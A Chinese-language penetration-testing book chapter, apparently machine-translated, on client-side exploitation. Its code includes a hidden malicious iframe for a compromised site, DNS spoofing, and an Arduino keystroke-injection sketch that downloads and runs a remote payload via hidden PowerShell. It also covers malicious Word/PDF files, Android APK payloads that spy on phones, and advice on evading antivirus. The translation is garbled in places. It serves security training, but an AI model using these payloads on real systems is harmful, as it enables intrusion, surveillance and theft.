# 客户端利用

在前面的章节中，我们讨论了编码并在众多环境中执行了渗透测试；我们现在准备引入客户端开发。在本节和其他章节中，我们将详细学习客户端开发。

在本章中，我们将重点关注以下内容：

*   攻击目标的浏览器
*   欺骗客户端的复杂攻击向量
*   攻击 Android 并使用 Kali NetHunter
*   利用 Arduino 进行开发
*   将有效负载注入到各种文件中

客户端攻击有时需要受害者与恶意文件交互，这使得其成功依赖于交互。这些交互可能是访问恶意 URL 或下载并执行文件，这意味着我们需要受害者的帮助才能成功利用他们的系统。因此，对受害者的依赖性是客户端攻击的一个关键因素。

客户端系统可能运行不同的应用程序。PDF 阅读器、文字处理器、媒体播放器和 web 浏览器等应用程序是客户端系统的基本软件组件。在本章中，我们将发现这些应用程序中的各种缺陷，这些缺陷可能会导致整个系统受到破坏，从而使我们能够使用被利用的系统作为发射台来测试整个内部网络。

让我们开始通过多种技术开发客户机，并分析在开发客户机端 bug 时可能导致成功或失败的因素。

# 利用浏览器获取乐趣和利润

网络浏览器主要用于网上冲浪；但是，过时的 web 浏览器可能会导致整个系统受损。客户端可能永远不会使用预先安装的 web 浏览器，而是根据自己的喜好选择一种浏览器；但是，默认预安装的 web 浏览器仍可能导致对系统的各种攻击。通过发现浏览器组件中的漏洞来利用浏览器被称为基于浏览器的**攻击**。

有关 Firefox 漏洞的更多信息，请参阅[https://www.cvedetails.com/product/3264/Mozilla-Firefox.html?vendor_id=452](https://www.cvedetails.com/product/3264/Mozilla-Firefox.html?vendor_id=452) 。

参见[中的 Internet Explorer 漏洞 https://www.cvedetails.com/product/9900/Microsoft-Internet-Explorer.html?vendor_id=26](https://www.cvedetails.com/product/9900/Microsoft-Internet-Explorer.html?vendor_id=26) 。

# 浏览器自动关闭攻击

Metasploit 提供了 browser Autown，这是一个各种攻击模块的集合，旨在通过触发相关漏洞来利用目标浏览器。为了了解该模块的内部工作原理，让我们讨论一下攻击背后的技术。

# 浏览器自动关闭攻击背后的技术

自动关闭是指自动利用目标。autopwn 模块通过一个接一个地自动配置，在侦听模式下设置大多数基于浏览器的漏洞。对于来自特定浏览器的传入请求，它会启动一组匹配的漏洞利用。因此，无论受害者使用的是哪种浏览器，如果浏览器中存在漏洞，自动关闭脚本都会使用匹配的攻击模块自动对其进行攻击。

让我们详细了解这个攻击向量的工作原理，使用以下图表：


在前面的场景中，漏洞利用服务器库已启动并运行，一些基于浏览器的漏洞利用已配置了匹配的处理程序。一旦受害者的浏览器连接到漏洞攻击服务器，漏洞攻击服务器就会检查浏览器的类型，并根据匹配的漏洞攻击进行测试。在上图中，我们将 Internet Explorer 作为受害者的浏览器。因此，与 Internet Explorer 匹配的漏洞攻击会在受害者的浏览器上进行。随后的攻击将连接回处理程序，攻击者获得对目标的 shell 或 MeterMeter 访问权。

# 使用 Metasploit 浏览器自动 wn 攻击浏览器

要进行浏览器攻击，我们将使用 Metasploit 中的`browser_autopwn`模块，如下图所示：



我们可以看到，我们在 Metasploit 中成功加载了驻留在`auxiliary/server/browser_autpown2`的`browser_autopwn`模块。要发起攻击，我们需要指定`LHOST`、`URIPATH`和`SRVPORT`。`SRVPORT`是我们的漏洞服务器基础将运行的端口。建议使用端口`80`或`443`，因为在`URL`上添加端口号会吸引很多人的眼球，看起来很可疑。`URIPATH`是各种漏洞攻击的目录路径，应将`URIPATH`指定为`/`保存在根目录中。让我们设置所有必需的参数并启动模块，如以下屏幕截图所示：


启动`browser_autopwn`模块将在监听模式下设置浏览器漏洞攻击，等待传入连接，如以下屏幕截图所示：



任何连接到我们系统的端口`80`上的目标都会受到基于其浏览器的攻击。让我们分析受害者如何连接到恶意攻击服务器：



我们可以看到，一旦受害者连接到我们的 IP 地址，`browser_autopwn`模块就会做出各种攻击响应，直到获得 MeterMeter 访问权限，如以下屏幕截图所示：


正如我们所看到的，`browser_autopwn`模块允许我们测试并积极利用受害者的浏览器中的众多漏洞；但是，客户端攻击可能会导致服务中断。在进行客户端开发测试之前，最好先获得许可。在下一节中，我们将看到像`browser_autopwn`这样的模块是如何对众多目标致命的。

# 损害网站的客户

在本节中，我们将尝试开发一些方法，利用这些方法，我们可以将常见的攻击转化为可供选择的致命武器。

如前一节所示，向目标发送 IP 地址可能很容易吸引人，受害者可能会后悔浏览了您发送的 IP 地址；但是，如果向受害者发送域地址而不是裸 IP 地址，则避开受害者眼睛的可能性更大，并且结果是有保证的。

# 注入恶意 web 脚本

易受攻击的网站可以作为浏览器 autopwn 服务器的启动平台。攻击者可以将隐藏的 iFrame 嵌入易受攻击服务器的网页中，以便访问该服务器的任何人都将面临浏览器自动关闭攻击。因此，每当有人访问注入的页面时，浏览器自动关闭漏洞攻击服务器都会测试他们的浏览器是否存在漏洞，并且在大多数情况下也会对其进行攻击。

通过**iFrame 注入**可以实现站点用户的大规模黑客攻击。让我们在下一节中了解攻击的解剖结构。

# 黑客攻击网站用户

让我们通过下图了解如何利用浏览器漏洞攻击网站用户：



前面的图表把事情讲得很清楚。现在让我们来看看如何做。但请记住，此攻击最重要的要求是访问具有适当权限的易受攻击服务器。让我们通过以下屏幕截图了解有关注入恶意脚本的更多信息：



我们有一个 web 应用程序漏洞的示例网站，该漏洞允许我们上传基于 PHP 的第三方 web shell。要执行攻击，我们需要在`index.php`页面或我们选择的任何其他页面中添加以下行：

```
<iframe src="http://192.168.10.107:80/" width=0 height=0 style="hidden" frameborder=0 marginheight=0 marginwidth=0 scrolling=no></iframe> 
```

每当受害者访问网站时，前一行代码将在 iFrame 中加载恶意浏览器自动 wn。由于此代码位于`iframe`标记中，它将自动包含来自攻击者系统的浏览器自动关闭。我们需要保存此文件，并允许访问者查看网站和浏览它。

一旦受害者浏览到受感染的网站，浏览器自动关闭将在其浏览器上自动运行；但是，请确保`browser_autopwn`模块正在运行。如果没有，可以使用以下命令：



如果一切顺利，我们将能够让 MeterMeter 在目标系统上运行。整个想法是利用目标网站吸引最大数量的受害者，并进入他们的系统。这种方法在处理白盒测试时非常方便，因为白盒测试的目标是内部 web 服务器的用户。让我们看看当受害者浏览到恶意网站时会发生什么：


我们可以看到对 IP`192.168.10.107`进行了调用，这是我们的浏览器 autopwn 服务器。让我们从攻击者的角度看一下视图，如下所示：


我们可以看到，剥削正在轻松地进行。成功利用后，我们将看到 MeterMeter 访问，如前一个示例所示。

# 带有 DNS 欺骗和 MITM 攻击的自动 wn

所有针对受害者系统的攻击背后的主要动机是以最小的检测获得访问权限，并将引起受害者注意的风险降至最低。

现在，我们已经看到了传统的浏览器自动关闭攻击及其修改，以侵入网站的目标受众。尽管如此，我们还是有把链接发送给受害者的限制。

然而，在这次攻击中，我们将对受害者进行相同的浏览器自动关闭攻击，但方式不同。在这种情况下，我们不会向受害者发送任何链接。相反，我们将等待他们浏览到他们最喜欢的网站。

此攻击仅在 LAN 环境中有效。这是因为要执行此攻击，我们需要执行 ARP 欺骗，它在第 2 层工作，并且在同一广播域下工作；但是，如果我们能够以某种方式修改远程受害者的`hosts`文件，我们也可以通过 WAN 执行此操作，这称为**欺骗攻击**。

# 用 DNS 劫持欺骗受害者

让我们开始吧。在这里，我们将对受害者进行 ARP 中毒攻击，并欺骗 DNS 查询。因此，如果受害者试图打开标准网站，如[http://google.com](http://google.com) ，这是最常见的浏览对象，他们将获得浏览器自动关闭服务作为回报，这将导致他们的系统受到浏览器自动关闭服务器的攻击。

我们将首先创建一个用于毒害 DNS 的条目列表，这样每当受害者试图打开一个域时，该域的名称都会指向我们的浏览器自动 wn 服务的 IP 地址，而不是[http://www.google.com](http://www.google.com) 。DNS 的伪造条目位于以下文件中：


在本例中，我们将使用一组最流行的 ARP 中毒工具`ettercap`。首先，我们将搜索该文件并在其中创建一个伪造的 DNS 条目。这一点很重要，因为当受害者试图打开网站而不是其原始 IP 时，他们将获得我们自定义的 IP 地址。为此，我们需要修改`etter.dns`文件中的条目，如下图所示：


我们需要在本节中进行以下更改：


每当受害者请求[时，此条目将发送攻击者机器的 IP 地址 http://google.com](http://google.com) 。创建条目后，保存此文件并使用以下屏幕截图所示的命令打开`ettercap`：


上述命令将以图形模式启动 eTerCap，如以下屏幕截图所示：


我们需要选择统一的嗅探。。。选项，并选择该接口作为默认接口，即 eth0，如以下屏幕截图所示：


下一步是扫描网络范围，以识别网络上存在的所有主机，包括受害者和路由器，如以下屏幕截图所示：



根据地址范围，所有扫描的主机都会在其存在时进行过滤，并且网络上的所有现有主机都会添加到主机列表中，如以下屏幕截图所示：


要打开主机列表，我们需要导航到主机选项卡并选择主机列表，如以下屏幕截图所示：



下一步是将路由器地址添加到**目标 2**和**目标 1**中。我们将路由器用作**目标 2**，将受害者用作**目标 1**，因为我们需要截获来自受害者的信息并将其发送到路由器。

下一步是浏览到 Mitm 选项卡并选择 ARP 中毒，如以下屏幕截图所示：


接下来，单击 OK 并继续下一步，即浏览到 Start 选项卡并选择 Start Sniffing。单击开始嗅探选项将通知我们一条消息，上面写着`Starting Unified sniffing...`：


下一步是从插件选项卡激活 DNS 欺骗插件，选择管理插件，如以下屏幕截图所示：


双击 DNS 欺骗插件以激活 DNS 欺骗。现在，激活这个插件后发生的事情是，它将开始发送我们之前修改过的`etter.dns`文件中的虚假 DNS 条目。因此，每当受害者请求特定网站时，`etter.dns`文件中的欺诈性 DNS 条目将返回，而不是网站的原始 IP。这个假条目是我们的浏览器自动 wn 服务的 IP 地址。因此，受害者不会转到原始网站，而是被重定向到浏览器自动 wn 服务，在那里他们的浏览器将受到损害：



让我们在端口`80`上启动我们的恶意`browser_autopwn`服务：


现在，让我们看看当受害者试图打开[时会发生什么 http://google.com/](http://google.com/) ：


让我们看看攻击者方面是否有什么有趣的东西：



太神了我们在后台打开了 MeterMeter，这表明我们的攻击已经成功，没有向受害者发送任何链接。这种攻击的优点是，我们从未向受害者发布任何链接，因为我们毒害了本地网络上的 DNS 条目；但是，要在 WAN 网络上执行此攻击，我们需要修改受害者的主机文件，以便无论何时请求特定 URL，主机文件中受感染的条目都会将其重定向到恶意的 autopwn 服务器，如以下屏幕截图所示：


因此，可以使用 Metasploit 中支持的各种攻击重新发明许多其他技术。

# 利用浏览器漏洞使用 Kali NetHunter

我们看到了如何欺骗 DNS 查询并对同一网络上的目标使用它。我们也可以使用 NetHunter Android 设备执行类似但无麻烦的攻击。为了躲避受害者的眼睛，我们不会像在上一次演示中那样使用任何特定的网站，比如谷歌。在这种攻击类型中，我们将通过 Kali NetHunter 中的**cSploit**工具，使用脚本注入攻击注入目标正在浏览的所有站点。那么，让我们按如下方式浏览 CSLoit：


我们假设我们的目标是`DESKTOP-PESQ21S`点击它将打开一个子菜单，其中包含列出的所有选项：



让我们选择 MITM，然后选择脚本注入和自定义代码，这将导致以下屏幕：



我们将使用自定义脚本攻击和默认脚本开始。现在，它将把这个脚本注入到目标浏览的所有网页中。让我们按 OK 启动攻击。一旦目标打开新网站，受害者将收到以下信息：


我们可以看到，我们的攻击完美无缺地成功了。我们现在可以创建一些 JavaScript 来加载浏览器自动 wn 服务。我有意将 JavaScript 练习留给您完成，以便在创建脚本时，您可以研究更多技术，例如基于 JavaScript 的 cookie logger；但是，在运行 JavaScript（将在后台加载浏览器自动 wn 服务）时，我们将获得以下输出：



太棒了，对吧？NetHunter 和 cSploit 是游戏规则的改变者。但是，如果您无法创建 JavaScript，可以使用重定向选项重定向目标，如下所示：


单击“确定”按钮将强制所有通信量到达端口`8080`上的前一个地址，该地址只不过是我们的 Autown 服务器的地址。

# Metasploit 和 Arduino-致命的组合

基于 Arduino 的微控制器板是一种微小而不寻常的硬件，在渗透测试中可以充当致命武器。一些 Arduino 板支持键盘和鼠标库，这意味着它们可以用作 HID 设备：


因此，这些小小的 Arduino 板可以悄悄地执行人类的动作，如键入键、移动和用鼠标单击，以及其他许多事情。在本节中，我们将模拟 Arduino Pro 微型板作为键盘，从远程站点下载并执行恶意负载；然而，这些小板没有足够的内存来保存内存中的有效负载，因此需要下载。

有关使用 HID 设备进行攻击的更多信息，请参阅 USB Rubber Ducky 或 Teensy。

**Arduino Pro Micro**在[等热门购物网站的售价不到 4 美元 https://www.aliexpress.com/](https://www.aliexpress.com/) 还有很多其他的。因此，使用 Arduino Pro Micro 比使用 Teensy 和 USB 橡胶 Ducky 便宜得多。

使用其编译器软件配置 Arduino 非常容易。精通编程概念的读者会发现这个练习非常简单。

参见[https://www.arduino.cc/en/Guide/Windows](https://www.arduino.cc/en/Guide/Windows) 了解有关 Arduino 的设置和入门的更多信息。

让我们看看需要在 Arduino 芯片上刻录哪些代码：

```
#include<Keyboard.h>
void setup() {
delay(2000);
type(KEY_LEFT_GUI,false);
type('d',false);
Keyboard.releaseAll();
delay(500);
type(KEY_LEFT_GUI,false);
type('r',false);
delay(500);
Keyboard.releaseAll();
delay(1000);
print(F("powershell -windowstyle hidden (new-object System.Net.WebClient).DownloadFile('http://192.168.10.107/pay2.exe','%TEMP%\\mal.exe'); Start-Process \"%TEMP%\\mal.exe\""));
delay(1000);
type(KEY_RETURN,false);
Keyboard.releaseAll();
Keyboard.end();
}
void type(int key, boolean release) {
 Keyboard.press(key);
 if(release)
  Keyboard.release(key);
}
void print(const __FlashStringHelper *value) {
 Keyboard.print(value);
}
void loop(){}
```

我们有一个名为`type`的函数，它接受两个参数，这两个参数是要按下和释放的键的名称，用于确定是否需要释放特定的键。下一个功能是`print`，它通过直接在键盘按键功能上输出文本来覆盖默认的`print`功能。Arduino 主要有两个功能，即`loop`和`setup`。由于我们只需要下载并执行一次有效负载，因此我们将代码保留在`setup`函数中。当我们需要重复指令块时，`Loop`功能是必需的。`delay`函数相当于`sleep`函数，该函数使程序停止若干毫秒。`type(KEY_LEFT_GUI, false);`将按下目标上的左 Windows 键，由于我们需要保持按下状态，因此我们将通过`false`作为释放参数。接下来，我们以同样的方式传递`d`键。现在，我们按下了两个键，它们是 Windows+*D*（显示桌面的快捷方式）。我们一提供`Keyboard.releaseAll();`命令，`Windows+d`命令就被推到目标上执行，这将最小化桌面上的一切。

有关 Arduino 键盘库的更多信息，请访问[https://www.arduino.cc/en/Reference/KeyboardModifiers](https://www.arduino.cc/en/Reference/KeyboardModifiers) 。

类似地，我们将提供下一个组合以显示“运行”对话框。接下来，我们在 run 对话框中打印 PowerShell 命令，它将从远程站点`192.168.10.107/pay2.exe`下载我们的有效负载到`Temp`目录，并从那里执行。提供该命令时，我们需要按*回车*来运行该命令。我们可以通过传递`KEY_RETURN`作为键值来实现这一点。让我们看看我们是如何写信给 Arduino 董事会的：


我们可以看到，我们必须通过浏览工具菜单来选择电路板类型，如前面的屏幕截图所示。接下来，我们需要为电路板选择通信端口：



接下来，我们需要通过按->图标将程序写入电路板：



我们的 Arduino 现在已经准备好接入受害者的系统。好消息是它模拟了键盘。因此，您不必担心检测问题；然而，有效载荷需要足够好的模糊处理，以避免 AV 检测。

按如下方式插入设备：


一旦我们插入设备，在几毫秒内，我们的有效负载就会被下载，在目标系统上执行，并向我们提供以下信息：


让我们看看我们是如何生成有效负载的：


我们可以看到，我们为 Windows 创建了一个简单的 x64 米表负载，它将连接回端口`5555`。我们将可执行文件直接保存到 Apache 文件夹，并启动 Apache，如前面的屏幕截图所示。接下来，我们只启动了一个漏洞处理程序，它将侦听端口`5555`上的传入连接，如下所示：


我们在这里看到了一次非常新的攻击。使用一个便宜的微控制器，我们能够访问 Windows10 系统。Arduino 玩起来很有趣，我建议进一步阅读 Arduino、USB 橡皮鸭、Teensy 和 Kali NetHunter。Kali NetHunter 可以使用任何 Android 手机模拟相同的攻击。

有关 Teensy 的更多信息，请访问[https://www.pjrc.com/teensy/](https://www.pjrc.com/teensy/) 。

有关 USB 橡皮鸭的更多信息，请访问[http://hakshop.myshopify.com/products/usb-rubber-ducky-deluxe](http://hakshop.myshopify.com/products/usb-rubber-ducky-deluxe) 。

# 基于文件格式的攻击

在本节中，我们将介绍使用恶意文件对受害者进行的各种攻击。每当这些恶意文件运行时，就会向目标系统提供 MeterMeter 或 shell 访问权限。在下一节中，我们将介绍使用恶意文档和 PDF 文件进行攻击的情况。

# 基于 PDF 的漏洞利用

基于 PDF 文件格式的攻击是指在各种 PDF 阅读器和解析器中触发漏洞的攻击，这些漏洞用于执行承载 PDF 文件的有效负载，使攻击者能够以 MeterMeter 外壳或命令外壳的形式完全访问目标系统；但是，在深入了解该技术之前，让我们先看看我们针对的是什么漏洞，以及环境细节是什么：

| **测试用例** | **说明** |
| 弱点 | 此模块利用 Nitro 和 Nitro Pro PDF 阅读器版本 11 中实现的不安全 JavaScript API。`saveAs()`Javascript API 函数允许将任意文件写入文件系统。此外，`launchURL()`函数允许攻击者在文件系统上执行本地文件，并绕过安全对话框。 |
| 在操作系统上被利用 | 视窗 10 |
| 软件版本 | Nitro Pro 11.0.3.173 |
| CVE 详细信息 | [https://www.cvedetails.com/cve/CVE-2017-7442/](https://www.cvedetails.com/cve/CVE-2017-7442/) |
| 利用细节 | `exploit/windows/fileformat/nitro_reader_jsapi` |

为了利用该漏洞，我们将创建一个 PDF 文件并将其发送给受害者。当受害者试图打开我们的恶意 PDF 文件时，我们将能够根据使用的有效负载获取 MeterMeter 外壳或命令外壳。让我们再向前一步，尝试构建恶意 PDF 文件：


我们需要将`LHOST`设置为我们的 IP 地址，以及我们选择的`LPORT`和`SRVPORT`。出于演示目的，我们将选择将端口设置默认为`8080`和`LPORT`保留为`4444`。让我们按如下方式运行模块：


我们需要通过多种方式之一将`msf.pdf`文件发送给受害者，例如上传文件并将链接发送给受害者，将文件放入 U 盘，或者通过电子邮件发送压缩的 ZIP 文件格式；但是，出于演示目的，我们已经在 Apache 服务器上托管了该文件。一旦受害者下载并执行该文件，他们将看到类似于以下屏幕的内容：


在几分之一秒内，重叠窗口将消失，并将产生一个成功的流量计外壳，如以下屏幕截图所示：


# 基于单词的攻击

基于 Word 的漏洞利用集中在我们可以加载到 Microsoft Word 的各种文件格式上；但是，一些文件格式会执行恶意代码，并会让攻击者获得对目标系统的访问权限。我们可以像对待 PDF 文件一样利用基于 Word 的漏洞。让我们快速了解与此漏洞相关的一些基本事实：

| **测试用例** | **说明** |
| --- | --- |
| 弱点 | 此模块创建恶意 RTF 文件，当在易受攻击的 Microsoft Word 版本中打开该文件时，将导致代码执行。该漏洞存在于**olelink**对象如何发出 HTTP（s）请求并执行 HTA 代码作为响应。 |
| 在操作系统上被利用 | Windows 7 32 位 |
| 我们环境中的软件版本 | Microsoft Word 2013 |
| CVE 详细信息 | [https://www.cvedetails.com/cve/cve-2017-0199](https://www.cvedetails.com/cve/cve-2017-0199) |
| 利用细节 | `exploit/windows/fileformat/office_word_hta` |

让我们尝试使用此漏洞访问易受攻击的系统。因此，让我们快速启动 Metasploit 并创建文件，如以下屏幕截图所示：


我们将`FILENAME`和`SRVHOST`参数分别设置为`Report.doc`和我们的 IP 地址，如下图所示：



生成的文件存储在`/root/.msf4/local/Report.doc`路径中。让我们将此文件移动到 Apache`htdocs`目录：


我们需要通过多种方式之一将`Report.doc`文件发送给受害者，例如上传文件并将链接发送给受害者，将文件放入 U 盘，或者通过电子邮件发送压缩的 ZIP 文件格式；但是，出于演示目的，我们已经在 Apache 服务器上托管了该文件。让我们在受害者机器上下载它，如下所示：


让我们打开此文件并检查是否发生了某些事情：


我们看不出这里发生了什么事。让我们回到我们的 Metasploit 控制台，看看我们是否得到了一些东西：


砰砰！我们很容易就能用米表接近目标。我们刚刚看到创建恶意 Word 文档和访问目标机器是多么容易。但是等等！这么简单吗？不，我们还没有考虑到目标系统的安全性！在现实世界中，我们在目标机器上运行大量的防病毒解决方案和防火墙，这最终会毁掉我们的派对。我们将在下一章讨论这些防御。

# 用 Metasploit 攻击 Android

Android 平台可以通过创建简单的 APK 文件或将有效负载注入现有的 APK 来受到攻击。我们将讨论第一个问题。我们先用`msfvenom`生成一个 APK 文件，如下所示：


在生成 APK 文件时，我们需要做的就是说服受害者（执行社会工程）安装 APK，或者实际访问手机。让我们看看受害者下载恶意 APK 后手机上会发生什么：



下载完成后，用户将按如下方式安装文件：


大多数人在智能手机上安装新应用程序时，从未注意到应用程序要求什么权限。因此，攻击者可以完全访问手机并窃取个人数据。前面的屏幕截图列出了应用程序正确运行所需的权限。一旦安装成功，攻击者就可以完全访问目标手机：


哇！我们可以很容易地进入计量器。下一章将广泛讨论后剥削问题；但是，让我们看看一些基本功能：


我们可以看到，运行`check_root`命令表示设备已根化。让我们看看其他一些函数：


我们可以使用`send_sms`命令从被攻击的手机向任何号码发送短信。让我们看看消息是否已传递：


答对 了消息已成功传递。同时，让我们看看我们使用`sysinfo`命令闯入了什么系统：


让我们定位移动电话：


浏览谷歌地图链接，我们可以获得手机的确切位置：



让我们用手机的摄像头拍摄一些照片：


我们可以看到我们从照相机里得到的照片。让我们来看看图片：



# 总结和练习

本章介绍了一种基于客户端的开发的实践方法。了解基于客户端的攻击将使渗透测试人员更容易进入内部审计，或进入内部攻击比外部攻击更具影响力的情况。

在本章中，我们介绍了可以帮助我们攻击基于客户端的系统的各种技术。我们研究了基于浏览器的攻击及其变体。我们使用 Arduino 开发了基于 Windows 的系统。我们学习了如何创建各种基于文件格式的漏洞利用，以及如何将 Metasploit 与 DNS 欺骗攻击向量结合使用。最后，我们还学习了如何利用 Android 设备。

为了提高您的技能，您可以随意进行以下练习：

*   尝试使用 BetterCAP 执行 DNS 欺骗练习
*   从 Metasploit 生成 PDF 和 Word 攻击文档并尝试规避签名检测
*   尝试将生成的 Android APK 与其他合法 APK 绑定

在下一章中，我们将详细介绍后期开发。我们将介绍一些先进的开发后模块，这些模块将允许我们从目标系统中获取大量有用的信息。